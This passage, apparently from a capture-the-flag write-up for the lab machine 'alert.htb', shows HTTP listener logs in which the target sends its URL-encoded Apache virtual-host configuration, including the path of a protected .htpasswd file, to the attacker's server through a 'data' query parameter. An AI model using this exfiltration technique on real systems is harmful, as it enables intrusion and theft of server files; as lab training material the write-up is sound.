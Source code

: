 As before we just repeated the steps to get the content of the file.

```c
10.10.14.86 - - [23/Nov/2024 22:22:42] code 501, message Unsupported method ('GET')                                                                                                                                                         
10.10.14.86 - - [23/Nov/2024 22:22:42] "GET /?data=%0A HTTP/1.1" 501 -                                                                                                                                                                      
10.10.14.86 - - [23/Nov/2024 22:22:43] code 501, message Unsupported method ('GET')                                                                                                                                                         
10.10.14.86 - - [23/Nov/2024 22:22:43] "GET /?data=%0A HTTP/1.1" 501 -                                                                                                                                                                      
10.129.27.137 - - [23/Nov/2024 22:22:54] code 501, message Unsupported method ('GET')                                                                                                                                                       
10.129.27.137 - - [23/Nov/2024 22:22:54] "GET /?data=%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:22:57] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:22:57] "GET /?data=%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A HTTP/1.1" 501 -
```
